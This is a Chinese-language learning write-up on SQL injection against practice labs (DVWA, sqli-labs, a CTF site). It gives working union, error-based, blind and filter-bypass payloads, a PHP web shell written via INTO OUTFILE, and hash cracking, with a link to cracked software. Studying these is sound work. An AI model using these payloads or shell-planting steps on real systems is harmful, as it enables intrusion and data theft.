


SQL注入的学习
=============

[](https://www.github.com/kevin-leak) [](http://www.crabglory.club)  

>web渗透测试的本质是**信息收集**（知道了本质是什么，才知道力出在哪里）

> 整个文章是 以怎么获取服务器root权限 和 获取用户数据来思考的，文章也是这么组织的。

> 文章还需要不断的修改和补充。

[TOC]


个人思考
--------

如何快速的解决转到另外一个陌生的领域中对于学习线的迷茫？

这里附一篇文章：[渗透测试入门指南与路线规划](https://zhuanlan.zhihu.com/p/55484970) 

解决办法：

- 看书本的目录，别人是如何整理的知识体系
- 看别人的技能导图
- 看别人的学习经历
- 看视频教程的目录。


## 测试环境搭建

可以先跳过阅读。

### dvwa 的搭建

因为dvwa的测试漏洞更全，所以一开始选择了dvwa。

采用的是 `phpstudy + dvwa + windows 2003 server + vm 15 pro`进行搭建。

**资源**

- [vm 15 pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0) ：这个比较容易，直接在官网下载进行了，再百度一个注册码。
- [windows 2003 server](https://pan.baidu.com/s/13Gb57EuFlAW1YuFlcWg45w)：提取码为`k27m` 
- [phpstudy](http://phpstudy.php.cn/download.html)  : 里面装载了mysql，apache
- [DVWA](http://www.dvwa.co.uk/) ：用来注入的网站

具体的搭建过程参考这篇文章：[用phpStudy搭建DVWA漏洞测试环境-详细过程](https://www.jianshu.com/p/97d874548300) 

这里提出**几个注意点**：

- vmare tools 因为是以外接设备插入到虚拟机中，容量小，不能直接在里面进行安装，要复制到其他目录进行安装。

- windows 2003 在vm中装载之后，会弹出要输入密码，直接点确认就可以，没有密码。

- phpstudy 会出现80端口被占用，需要在：其他选项菜单 --> 软件设置 ---> 端口，进行修改。

- 要测试的网站目录放在`\phpStudy\PHPTutorial\WWW` 下，在初始化dvwa项目的时候，需要修改一个文件

  分别是配置文件的修改：`\DVWA\config\config.inc.php.disk`  去掉文件的`.disk`后缀

  数据库文件的配置，就是修改上面这个目录的文件内容：`config.inc.php`

  ```php
  // 数据库的连接的ip地址
  $_DVWA[ 'db_server' ]   = '127.0.0.1';
  // 数据库名字
  $_DVWA[ 'db_database' ] = 'dvwa';
  // 数据库密码和用户名
  $_DVWA[ 'db_user' ]     = 'root';
  $_DVWA[ 'db_password' ] = '';
  ```

  如果没有修改过MySQL的密码，则将密码这一项置空就行了，可以通过phpstudy进行修改，可能会出现密码并没有修改的bug，所以修改了之后要重新建议启动mysql服务，再不行重启虚拟机。

- 访问DVWA网站的时候，要首先初始化数据库，如果没有修改过端口，访问默认为：http://localhost/dvwa，当访问后会会出现一个初始化的页面，下拉到最后，点击create database按钮就行。

  默认登入密码网页会写，用户名为：`admin`，密码为：`password`。
  
- **特别需要注意的是**：在进入到dvwa中的时候，一定要记得修改`DVWA Security`的难度等级，不然无法进行注入。

因为主机与虚拟机在同一个局域网中，你也可以在本机上用浏览器


### sqli-libs的搭建

这个为了进行SQL注入的各种情况的联系而的搭建，相比于dvwa来说跟多的sql注入测试场景

采用的是 `phpstudy + sqli-lib+ windows 2003 server + vm 15 pro`进行搭建。

这里配一篇文章[windows下sqli-labs的搭建](https://blog.csdn.net/qq_27214561/article/details/72809423) 

**资源**

- [vm 15 pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0) ：这个比较容易，直接在官网下载进行了，再百度一个注册码。
- [windows 2003 server](https://pan.baidu.com/s/13Gb57EuFlAW1YuFlcWg45w)：提取码为`k27m` 
- [phpstudy](http://phpstudy.php.cn/download.html)  : 里面装载了mysql，apache
- [sqli-libs](https://github.com/Audi-1/sqli-labs) ：用来注入的网站

**注意**

记得修改数据的登入密码，默认是没有。

要测试的网站目录放在`\phpStudy\PHPTutorial\WWW` 下，在放置将github解压到此处，进行文件名的修改：`sqli-libs`，进行访问[链接(修改过PHPstudy中Apache的端口)](https://localhost:8001/sqli-libs) ，可能会弹出一个报错页面，数据连接报错。

就是要修改数据库连接的密码，修改路径也给出了：`sqli-labs\sql-connections\db-db-creds.inc`


### 其他测试网站

这里**提供几套测试源码**：

[各种渗透测试的源码 ](https://pan.baidu.com/s/1uuGRlmFOg1SEcDVeBj67Sw) ：提取码`kttd` 

提供一个博客的介绍：[本地搭建](https://blog.csdn.net/bfboys/article/details/52484622) 


## sql注入


**自己的思维理解**：

还是sql注入的目的主要是信息的截取获取控制服务器权限；

这样我们首先面对的问题就是，在一个网站中如何获取可以注入的入口，这个用扫描器进行扫描就可以获取，但扫描器确定有之后，我们要需要手段去确定，需要做的就是在注入点注入一个恒成立的条件，判断页面是否会产生相应的变化，例如：`1' or '1'='1` 和 `1' or '1'='2`

接下来要开始注入了，但假如说页面并没有反馈，要如何确定自己要注入的语句执行成功，就要用到盲注中的时间注入，通过页面的反应的时间来做判断，而也有可以通过报错来获取，这里提供了两个函数：updatexml()和extractvalue();

注入顺利，就可以顺利的进入到网站中拿到shell，但是通常都会有一些防御的方式，面对关键字被过滤，这里提供几种可以逃逸的攻击手段：双写绕过，大小写绕过，注释，而对于单引号转义的情况，提供一个宽字节绕过的方式；

在获取到数据密码信息的时候，我们通常需要解密，才能登入，所以提供了一个解密方式；

注入点通常需要数据库的root权限，如果不是有两种方式，第一种是暴露扫描，第二种是提权，这里提供了提权的手段，但与mysql版本有关。

二次注入是攻击的一种思想，利用正常的交互流程制造漏洞，进行再次攻击。也就是说上次输入的信息必须在下次用到，这里提供了一个案例；

因为有时候要用到暴力，所以文章提供了一款工具，sqlmap的介绍。


### 产生原理

这里参考一篇文章：[sql注入基础原理](https://www.jianshu.com/p/078df7a35671) 

由于对于开发人员没有对sql语句进行检查，利用sql语法的特点进行注入

```sql
-- 这里id 后面的值由前端输入。
select * from user id = '';
```

如果没有检查，可以存在这种语句

```sql
-- ; 1=1 # 为注入字符
select * from user id = '1'; 1=1 #';
```

这样就可以查询到所有用户的id。

其中攻击的原理：

**利用 ;  将前面语句进行闭合，# 将后面闭合，中间用sql控制自己需要查找的信息**

其中分号代表着语句的结束，而#在mysql中是注释不执行，其实可以不写，但会报错。

这里只是一个例子，其实用的就是闭合的方法思想

闭合有很多种方式，

- \# 只是注释闭合，如果后面没有要执行的语句，就可以用这个

- ‘ 闭合，可以执行后面的也形成了闭合。

- -- 也是注释，单行注释，后面必须有空格

- “ 与 ’ 闭合的时候回因为开发人员的过滤会有所不同，这个要注注意，攻击的时候要尝试。


>原理总结引用：https://ctf-wiki.github.io/ctf-wiki/web/introduction-zh/#sql
>
>通过在用户可控参数中注入 SQL 语法，破坏原有 SQL 结构，达到编写程序时意料之外结果的攻击行为。其成因可以归结为以下两个原因叠加造成的：
>
>1. 程序编写者在处理应用程序和数据库交互时，使用字符串拼接的方式构造 SQL 语句
>2. 未对用户可控参数进行足够的过滤便将参数内容拼接进入到 SQL 语句中


### 攻击流程

根据攻击的目的来书写的。

#### 截取信息

如何获取用户的信息，**首先需要知道就是有哪些数据库？**

直接暴力好似无从下手，但可以想一想**数据库中有哪些公共表可以利用？**

可以发现mysql 5.0 后的一个特殊的**数据库**：`information_schema`。


**information_schema** 这个数据库中会存在几张表：

- SCHEMATA：储存数据库名

  - SCHEMA_NAME：存储数据名的字段

  ```sql
  select schema_name from information_schema.schemata;
  ```

- TABLES：这里记录了所有数据库中国所有的表名

  - tables_schema：记录了这张表对应的数据库名
  - tables_name：记录表名的字段

  ```sql
  -- 显示所有表名以及对应的数据库。
  select table_schema, table_name from information_schema.tables;
  ```

- COLUMNS：这里记录了所有的数据中所有表的列名

  - table_schema：数据库名字段
  - table_name：表明字段
  - colum_name：列名字段

  ```sql
  -- 显示所有表名以及对应的数据库。
  select table_schema, table_name,column_name from information_schema.columns;
  ```

在查询表的时候，可以用where 除去系统自带的几张表：

```sql
where table_schema!='information_schema' and table_schema!='sys' and table_schema!='performance_schema' and table_schema!='mysql';
```

知道这个了，我们还需要知道，**如何获取当前数据库的名字？**

```sql
'union select database(); #
```

通过union 注入获取当前的数据库名字.

通过这个数据库，**可以获取当前数据库中的任意数据**。

那么当前服务器会存在多个数据库，如何跨库访问?，这样就可以实现利用旁站攻击的思路。这个放到后面来说

##### 流程总结

- 寻找注入点
- 查询当前数据库名字。
- 利用information_schema 数据库，了解到要查询数据的表以及字段。
- 利用union进行查询。


##### 案例一

[默认80端口的dvwa中low等级的sql注入实验](http://localhost/dvwa/vulnerabilities/sqli/)


获取数据库名:

注意下面这个注入语句，是实验出来的，一开始是没有select 1的，1是为了合乎查询数据要形成两列而写的，不然报错无法查询。

```sql
1' union select 1, database() ; #
```


可以知道当前数据库是：dvwa；

查询一下dvwa所有的表以及字段

```sql
1' union select table_name, column_name from information_schema.columns where table_schema="dvwa"; #
```


这里就以users表来继续获取信息。

```sql
1' union select user, password from users ; #
```


可以很清楚的知道有：admin、gordonb、1337、pablo、smithy这些人注册了网站以及对应的密码。

然后是**破解密码了**，百度查了一下，发现一个工具 [Cain](https://sourceforge.net/projects/hashidentifier/) 和 [密码破解之Cain破解MYSQL密码](https://blog.csdn.net/Aaron_Miller/article/details/80493440)  

但按照操作报错说hash密码长度不对，猜想会不会不是这种加密方式，百度查了一下数据库密码破解，在论坛中发现有人说类似于这个密码的字符串是md5加密，利用[在线MD5解密](https://www.cmd5.com/)，解密

```
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

发现成功解出密码：password。

**看一下low的源码**

```php
// Get input
$id = $_REQUEST[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

可以很明显的发现，其实就是简单的拼接


**思考如何判断数据的加密方式？**

- 肉眼：MD5是有32位数字，其他的就直接用用具吧，可以变化。
- 工具：[Hash Identifier](https://sourceforge.net/projects/hashidentifier/) 


#### root获取

可以获取的最大权限就是对数据库的控制，进而控制服务器获取root权限，可以有怎样的思路进行攻击。

要控制服务器，还是要上传后门，在可以进行sql语句的注入点，执行sql语句将需要植入的后门写入web目录中

遇到的问题是：**如何获取操作系统信息，来进行相应的写入操作？**

那么首先通过注入来了解数据库的版本和操作系统的类型

```sql
' union select version(),@@version_compile_os; #
```

注意这两个：version() 获取mysql 版本信息，@@version_compile_os 操作系统信息。

针对于不同的操作系统进行可以使用一下语句写入

```sql
-- 写入文件
' union select '内容' into outfile 'ower_path';#
-- 读取文件
' union select load_file('owner_path');#
```

在试验中会发现不是注入点没有权限，无法进行文件操作，问题是**什么数据库用户具有读写文件的权限？**

root 用户才有权限，但具有root用户的也可能遇到问题：`The MySQL server is running with the --secure-file-priv option`，[解决问题](https://blog.csdn.net/h12kjgj/article/details/77187304) 

一般在web的配置文件中，对数据的配置会写一个数据库的连接链接，同时会有登入名以及密码的配置，这个用户就是可以操作文件的，必须要找到这个用户的注入点，这要去试注入点。

```sql
-- 注入查询当前用户信息。
union select user(); #
```

我们还需要解决的一个问题是，写入文件的路径应该是哪个，文件要可以控制，可访问那肯定是写入在web目录下，问题是 **如何寻找到web目录？**

web目录放在哪，自己肯定不可能凭空想出来，可以通过爬虫知道个整个网站代码是怎么分布的，但你不知道是放在了系统的那个文件目录下，这个一般是开发人员暴露出来的，可以通过社工来搞。

还是要熟悉，开发中**哪里会存在绝对路径的使用同时可以通过什么方式可以看到**，或则通过暴力猜解。

这里提供几种方式：

这里参考一篇文章：[php爆绝对路径方法](http://www.cnhonkerarmy.com/thread-139414-1-1.html)  

```
1. 报错显示：有些报错的日志没有关闭，或者没有做相关的屏蔽，导致显示出了web路径。
2. 谷歌黑客：就是根据语法搜,例如：Inurl edu.cn warning
3. 配置文件：例如，apache多站点vhost.conf配置
4. 漏洞报错：例如，搜索phpcms 爆路径
5. 遗留文件：例如，Inurl: phpinof.php php;
6. 字典解释：在上面失效的情况再试验，暴力。
```

这样就可以通过sql注入，写入一个可以访问代码文件，通过中国菜刀直接连接。

##### 流程总结

- 寻找到用于写入文件权限的注入点
- 通过各种爆路径的方法，获取到web文件存放的目录。
- 通过注入点写入代码到文件，用菜刀进行连接控制。

sql注入和其他的网站的攻击方式有区别的是，他可以不用获取用户的登入密码，只要拥有在数据库中读写文件的权限即可。


#####  案例二

[默认80端口的dvwa中low等级的sql注入实验](http://localhost/dvwa/vulnerabilities/sqli/)


获取操作系统信息，以及数据库版本信息：

```sql
1' union select version(),@@version_compile_os; #
```


发现是win32的系统，数据库是5.5.28的

查看一下是否有写文件权限

```sql
-- 注意要用\\，或者/,不然会发现找不到
1'; select '123' into outfile 'c:/kk.txt';#
-- 或者
1'; select '123' into outfile 'c:\\kk.txt';#
```

发现当前是有权限的用户(因为用的admin登入的)，如果不是可以参考**案例一**，将数据库权限进行提权，利用admin登入，这里贴几条命令

```sql
-- 获取数据库名字，得到数据库名字为dvwa
1' union select 1, database() ; #
-- 获取数据库对应的表名及其字段，得到user表
1' union select table_name, column_name from information_schema.columns where table_schema="dvwa"; #
-- 查询users表，获取admin，登入密码。
1' union select user, password from users ; #
```

假设我们已经有数据库的写权限。

执行写权限操作后，web页面报错：

```php
// 这里注意，这里爆出来绝对路径，下面要用到.
Warning: mysql_numrows() expects parameter 1 to be resource, boolean given in C:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\sqli\source\low.php on line 12
```

刷新一遍页面，或者再提价一下，发现出现

```sql
File 'c:/kk.txt' already exists
```

说明写入成功，接下来需要的是往dvwa网站中写入一句话木马，利用上面报错的信息产生的绝对路径`C:\phpStudy\PHPTutorial\WWW\DVWA`

```sql
' union select null, "<?php passthru($_GET['cmd']); ?>" into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\DVWA\\pp.php" #
```

可以在web目录中找到：`\DVWA\pp.php`内容是：`<?php passthru($_GET['cmd']); ?>`

这里进行访问：http://localhost/dvwa/pp.php?cmd=dir ，这里可能还会涉及到shell的提权，后面讲。


`?cmd=dir`传入cmd的命令

**看一下low的源码**

```php
// Get input
$id = $_REQUEST[ 'id' ];

// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
```

可以很明显的发现，其实就是简单的拼接


### 攻击中可能遇到的问题

其实整体都围绕着

1. 是否可以注入？
2. 是否注入成功？
4. 开发中会有怎样的防护？


#### 是否可以注入？

写一个**恒成立的注入条件，判断是否与正常数据输入显示相同**，如果相同说明可以注入，当然很成立的条件要多试试不同的，开发人员可能对其进行了过滤。

这里也就是转化为**有哪些恒成立的注入条件？**


举个例子：dvma判断是否可以注入比较简单。

DVWA中 SQL inject 中 low 难度等级，链接：http://localhost/dvwa/vulnerabilities/sqli/


尝试着提交一个正确的语句：输入1

形成的现象是：


进行一个注入，测试当前的服务器入口是否可以注入测试代码

```sql
-- "进行右边的封闭， or 1=1 用来创造很成立的条件，;#用来处理后面的sql的封闭。
1" or 1=1; #
```

效果:


发现照常显示admin的数据。

**注意**：不一定就需要使用`1" or 1=1; #`，因为它可能被拦截，说以可以创造其他条件比如：

```sql
-- 这个也是恒成立的。
1" or if (length(database())>0, 1, 1); #';
```


#### 是否注入成功？


##### 报错信息

思考的是如何让它进行报错，且显示出我们想要的信息。

介绍几个函数

- updatexml()：[给一篇分析文章](https://www.cnblogs.com/MiWhite/p/6228491.html) 

  有三个参数：

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 
  - 第三个参数：new_value，String格式，替换查找到的符合条件的数据 

  常见的写法如下，**concat函数**返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

  ```sql
  1' union select updatexml(1,concat(0x7e,(SELECT user()),0x7e), 1); #
  ```

  出现报错为：`出现报错为：ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'`

  这样可以发现当前连接数据库的用户的名为：root

  其实就是**contact连接的字符串不符合语法导致爆出我们传入的参数**。

- extractvalue()：

  EXTRACTVALUE (XML_document, XPath_string); 

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串)

  payload：

  ```sql
  and extractvalue(null,concat(0x7e,(select @@datadir),0x7e));
  ```

  


##### 盲注

盲注就是开发人员对错误日志进行了屏蔽，我们无法通过错误日志直观的获取是否可以进行sql注入，我们需要做的就是**创造除错误日志以外的差异性变化**来判断。下面介绍几种办法。

###### 执行时间变化

先贴一片博客：[基于时间的 SQL注入研究](https://www.cnblogs.com/blacksunny/p/8056101.html)

需要用到if语句，这里做一个简单介绍：

```sql
-- expr1 表达式返回为true的话，执行expr2并返回结果，如果否则执行expr3的并返回
If(expr1,expr2,expr3)
```

先用mysql操作一下命令：

```sql
-- 判断数据库名字长度是否大于1
select * from course where Cno='1' and if (length(database())>1, sleep(5), 1); #';
-- 判断数据库名字长度实发大于10
select * from course where Cno='1' and if (length(database())>10, sleep(5), 1); #';
-- 正常操作
select * from course where Cno='1' and if (length(database())>10, sleep(5), 1); #';
```


观察现象，发现大于1的没有数据，大于10的和正常的输入有数据，且执行大于1的比大于10 的执行时间不同。

**案例**

dvma判断是否可以注入比较简单。

DVWA中 SQL inject Blind 中 low 难度等级，链接：http://localhost/dvwa/vulnerabilities/sqli/

尝试着提交一个正确的语句：输入1


进行时间注入：

```sql
-- 过5秒后无返回值
1' and if (length(database())>1, sleep(5), 1); #';
```



这样可能是因为执行被拦截，所以执行不了，这里修改一下语句，继续执行

```sql
--如果条成功，则过5秒再执行，并返回1
1' and if (length(database())>1, 1, sleep(5)); #';
```


说明注入成功。

但是因为数据不显示，如何进行信息截取和获取root权限呢？？？？

首先一大问题就是获取数据库权限，怎么知道当前注入点的用户的具体情况？

提供一种解决办法：用暴力

```sql
-- 利用substring方法进行分割字符，一个个拆解
1' and if (substring(database(), 1, 1)='d', 1, sleep(5)); #';
```

其他也是这样，会发现时间的延迟成了注入是否成功的，这就时间注入。


#### 开发中会有怎样的防护？

 这里参照《web安全攻防渗透测试实战指南》的目录查阅资料，找到靶机中案例进行演示，按照我自己的想法进行组织。

这里主要是结合开发中会用到的屏蔽手段进行分析，文章注重点应该在源码这一块的理解，以及攻击的一个思考过程的思考。

##### 字符过滤

###### 大小写绕过

在面对关键字被过滤的条件下，应该思考如何防止关键被清空，但又要保持执行结构一致？

需要做的是将语句进行变通以至于不被过滤，这里是利用**sql语句对大小写不敏感**这个开发人员可能遗漏的点来攻击。

这里给一个漏洞报告：[中国电信某分站SQL注入](https://www.secpulse.com/archives/25964.html) 

给不了靶机环境，这里给一个mysql的演示


###### 双写绕过

假设开发人员对关键字进行了过滤，对其进行了剪切，再获取到最后的数据，那么就会有这种双字绕过的情况。

这个东西我一直觉得很神奇，会出现这样的情况

看一个实验吧的案例：[简单的sql注入](http://ctf5.shiyanbar.com/423/web/) 


测试是否可以注入：

```sql
1
-- 报错
1'
-- 正常
1" or 1=1 #
```

猜测这个题应该不是获取root权限，应该是查询数据库的信息。

```sql
-- 查询一下当前数据名字
1" union select database() ; #
```


发现没有执行注入的语句，而且在id这一块少了union、select，后面实验还可以发现这里少了空格，但database() ;没有变，一直在，说明union、select和空格被过滤了，并且可能开发人员采用拼接的方式执行sql

先试一下

```sql
-- 发现没有过滤，但似乎不能执行了
1"  uniunionon  seleselectct  database(); #
```


因为只有两种双写的方式，**一种是在中间，一种 是在两边**，所以换一种试一下

```sql
-- 继续修改，换一种拼接方式
1"  unionunion  selectselect  database(); #
```


发现过滤成功了，但是并没有获取我想要的数据，而道理应该对了，而且已经执行了，猜测是不是#好屏蔽了什么？试试

```sql
1"  unionunion  selectselect  database() "
```


发现还是不对，没有执行。

```sql
-- 尝试下面的语句，发现没有报错，说明" 可能被拦截或者其他问题
1" 
-- 报错，说明注入成功，可以再尝试 1' or '1'='1
1'  =
-- 成功
1'  unionunion  selectselect  database()' 
```


这样就好了，发现数据库是web1，可以查询一下有哪些表，尝试着根据数据库名字来查，发现老是出错，后面简化

```sql
1' unionunion  selectselect  table_name fromfrom  information_schema.tables wherewhere  table_schemtable_schemaa='web1
```


找flag这张表的信息，发现有点诡异，报错：`Got error 28 from storage engine`

猜测列名为：`flag`

```sql
1' unionunion  selectselect  flag  fromfrom   flag  wherewhere   '1'='1
```


**总结一下**：

- 对于一个执行语句来说，他可能有的需要双字，有的不需要，这是一个组合要不断根据服务器的反应来进行尝试。
- 对于一个关键字来说，双字可以在字里面，也可以在字两边，这个要尝试。


###### 内联注释绕过


>内联注释是MySQL为了保持与其他数据兼容，将MySQL中特有的语句放在`/*!*/`中，
>
>这些语句在不兼容的数据库中不执行，而在MySQL自身却能识别，执行。
>`/!50001/`表示数据库版本>=5.00.01时中间的语句才能被执行
>
>看一下mysql中使用`/*!and*/`的效果，发现被注释的关键字是有用的。


有时候因为这个可以规避开发者的对关键字的过滤。

看一个实验吧的案例：[简单的sql注入](http://ctf5.shiyanbar.com/423/web/) 

他对and进行了过滤，可以这样尝试

```sql
1' /*!and*/ '1'='1
```


这里需要注意的是，有的需要内联有的不需要的情况，要不断的尝试。


##### 单引号被转义——宽字节绕过

###### 思维

因为开发人员对单引号进行过滤：替换或者转义，对于转义而攻击想到的一个问题是如何去掉反斜杠？但发现不能直接去掉，竟然想到从编码入手，进行一个合并。问题是这是怎么思考的？？？？？？猜想：

---> 我是这么觉得，先列出这个问题 

--->  一定要保留单引号，去掉反斜杠

--->  无法直接撤掉，因为是服务器加的 

---> 尝试加一个反斜杠这样形成抵消， 发现不行 

---> 是否可以将反斜杠转化为其他的东西，这样就可以保留单引号的意思 

---> 字符间要转化为其他东西？是不是要看字符形成的本质原理

---> 看一下编码格式中是否可以突破？

---> 通了。

**要做的是先列出问题，进行各种已知的方法先尝试，如果不行从本质出发检测每一个阶段是否有可能突破。**

这里挂一篇编码的文章：[理解字符编码](https://juejin.im/post/5a7c5aba5188257a7349b748) 

这里阐述一下自己的理解：

我们在编辑器中写的每一个字，显示都是基于一种编码，这个可以改变。

系统也有默认的编码：[查看操作系统的默认编码](https://bijian1013.iteye.com/blog/2313004)

假如当前我们的编辑器是utf-8的编码格式，存储的磁盘信号，就是utf-8格式应该占用的位数，而用其他编码进行解码就会乱掉。


那么到底是怎么样才让两个字进行了合并：编码的转换，

可以进行一下实验：在notpad++ 里面写一个gbk编码的文件，用其他编码格式打开你会发现有所变化。

而我们的**url是ASCII编码格式**，URL编码通常也被称为百分号编码（percent-encoding），是因为它的编码方式非常简单：使用%加上两位的字符——0123456789ABCDEF——代表一个字节的十六进制形式。URL编码要做的，就是将每一个非安全的ASCII字符都被替换为“%xx”格式，

服务器的编码如果是宽字节的，那么就会解码的时候就会出现\被合并。


###### 攻击原理

这里参考两篇篇文章，写的非常详细和牛逼： [宽字节注入详解](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html) 和 [SQL注入：宽字节注入（GBK双字节绕过](https://lyiang.wordpress.com/2015/06/09/sql注入：宽字节注入（gbk双字节绕过) 

>当一个Mysql连接请求从客户端传来的时候，服务器认为它的编码是character_set_client，
>然后会根据character_set_connection把请求进行转码，从character_set_client转成character_set_connection，
>然后更新到数据库的时候，再转化成字段所对应的编码
>如果使用了set names指令，那么可以修改character_set_connection的值，
>也同时会修改character_set_client和character_set_results的值
>当从数据库查询数据返回结果的时候，将字段从默认的编码转成character_set_results

可以利用：`show variables like 'character%';`查询数据默认的一些编码。


查询摸个表，或者某个字段的编码，可以参考文章：[mysql 中查看表、字段的编码格式](https://blog.csdn.net/zf472422160/article/details/84604124) 


###### 案例

来两篇文章：

- [ 对于less34 less36的宽字节注入的一点深入](https://www.cnblogs.com/omnis/p/8413779.html) 
-  [sqli-labs————Less-34(宽字节绕过、水平越权、盲注)](https://blog.csdn.net/Fly_hps/article/details/80287201) 

案例来自sqli-libs的第34个：http://localhost:8001/sqli-labs/less-34/ 


 正常来说，get的请求方式用：`1%df' or 1=1;#` 就可以逃逸，因为当插入反斜杠\，而反斜杠的十六进制是%5c，而url的编码是ASCII，转化为gbk的时候`%df%5c`会变成`縗`，形成单引号逃逸.

这里一个post的例子比较特殊：

《sql注入天书》中介绍因 POST 不能进行 URLencode，可使用 UTF-8 转 UTF-16 或 UTF-32。

可以利用工具将   `'`   从utf-8转化为utf-16 为`�`，构造出这个：

```sql
�' or 1=1;#
```


发现登入成功了。

查看源码

```php
mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and 	password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

**为什么可以？？？？**

用brupsuite抓包看一下：

```php
uname=%EF%BF%BD%27+or+1%3D1%3B%23&passwd=%EF%BF%BD%27+or+%C2%B71%3D1%3B%23&submit=Submit
```

发现这个，通过brupsuite，可以知道：`%EF%BF%BD` 就是 `�` ，

当反斜杠插入的时候，形成`%EF%BF %BD%5C`，而gbk编码就是两个字节进行转换，实现了反斜杠的逃逸。

而当输入的是：`%DF' or 1=1;#` 形成是：

```php
uname=%25DF%27or+1%3D1%23&passwd=%25DF%27or+1%3D1%23&submit=Submit
```

显然，在post中`%25DF` 无法使得单引号逃逸，但既然可以操作post包，我们可以直接的修改成

```php
uname=%DF%27or+1%3D1%23&passwd=%DF%27or+1%3D1%23&submit=Submit
```

发现成功的获取了信息。


#### 杂项

杂项的作用是用与记录sql注入攻击中来达到信息截取和root权限的获取的附带技能。


##### 数据库提权

来几篇文章：[渗透之——数据库提权](https://blog.csdn.net/l1028386804/article/details/85768994)  

无需多言，按照上面的文章进行操作就可。


##### 数据库密码解密

先来篇文章：[MySQL数据库密码破解](https://www.cnblogs.com/ichunqiu/p/7810914.html) 很值得看

**总结一下分这么几点:**

> 各个版本的加密方式有何异同？
>
> 加密文件存放位置在哪？
>
> 如何获取用户的加密信息？
>
> 如何解密？


###### 1. 各个版本的加密方式有何异同？

- MYSQL数据库的认证密码有两种方式：

  ```
  MYSQL 4.1版本之前是MYSQL323加密，MYSQL 4.1和之后的版本都是MYSQLSHA1加密
  ```

- 加密方式分别是？

  ```
  Old_Password（str）和Password（str）函数
  ```

- 肉眼上的区别是？

  ```
  MYSQL323加密中生成的是16位字符串，而在MYSQLSHA1中生存的是41位字符串
  ```

  

###### 2. 加密文件存放位置在哪？

mysql 8.0 之后的文件格式都改变为：sdi、csm、ibd，至于用户文件在哪，后面补充。

- MYSQL数据库文件结构?

  ```
  文件共有“frm”、“MYD”“和MYI”三种文件：
  “.frm”是描述表结构的文件，“.MYD”是表的数据文件，“.MYI”是表数据文件中任何索引的数据树。
  一般是单独存在一个文件夹中，默认是在路径`C:\Program Files\MYSQL\MYSQL Server 5.0\data`下。
  ```

- 密码文件是哪个?

  有关用户一共有三个文件即**user.frm**、**user.MYD**和**user.MYI**，MYSQL数据库用户密码都保存在user.MYD文件中，包括root用户和其他用户的密码，保存路径`C:\Program Files\MYSQL\MYSQL Server 5.0\data\MYSQL`


###### 3. 如何获取用户的加密信息？

利用UltraEdit软件，这里给一个： [UltraEdit破解方式](http://www.3322.cc/soft/42163.html)


###### 4. 如何解密？

工具 [Cain](https://sourceforge.net/projects/hashidentifier/) 配一篇操作文章： [密码破解之Cain破解MYSQL密码](https://blog.csdn.net/Aaron_Miller/article/details/80493440)  


##### 不同数据库的差别

给一篇Oracle与mysql的文章，要用的时候看：[Oracle数据库与MySQL数据库的区别](https://blog.csdn.net/bieleyang/article/details/78011161) 和 [Oracle注入基础](https://segmentfault.com/a/1190000013859761) 

其他的遇到后面再补充。

 


##### 二次注入

这应该是注入的方式，各种相互结合，这种类似于传了一个后门，**自己创造漏洞，再次利用**。

###### 案例

靶场环境是**sqli-libs的第24个训练题**：http://localhost/sqli-labs/less-24/

假设知道创建了一个用户，用户名为已知，密码信息未知，利用二次注入对密码进行修改。

- 模拟其他用户注册，用户名hh

  

- 攻击开始，自己注册一个账号，用户名为已知用户名后面追加：`' #`

  

- 登入`hh' #` 账号，进行修改，当前密码不知道，但不用填，会被屏蔽。

  

- 用户hh的密码已经被修改。

  


**分析**

